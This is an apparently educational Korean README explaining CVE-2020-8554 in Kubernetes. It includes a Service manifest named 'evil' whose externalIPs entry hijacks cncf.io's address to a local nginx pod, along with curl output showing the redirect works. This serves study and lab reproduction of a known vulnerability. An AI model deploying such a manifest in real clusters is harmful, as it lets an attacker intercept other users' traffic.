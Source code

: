 # 개요
* CVE-2020-8554 취약점

# 취약점 소개

* external IP를 할당하거나 status.loadBalancer.ingress.ip를 변경하면, externalIP를 호출되는 경우 공격자 pod로 라우팅
* 아래 예제는 cncf IP를 호출하면 nginx pod가 호출됨
* [예제코드 바로가기](./manifests/dns_poison/externalIP/)

```yaml
apiVersion: v1
kind: Service
metadata:
  name: evil
  namespace: default
spec:
  selector:
    app: nginx
  ports:
  - protocol: TCP
    port: 80
    targetPort: 80
  type: ClusterIP
  externalIPs:
  - 23.185.0.3 # http://cncf.io
```

```sh
netshoot pod# curl -I http://cncf.io
HTTP/1.1 200 OK
Server: nginx/1.14.2
```

# 참고자료
* https://github.com/kubernetes/kubernetes/issues/97076
* https://unit42.paloaltonetworks.com/cve-2020-8554/
* https://github.com/kubernetes-sigs/cloud-provider-kind
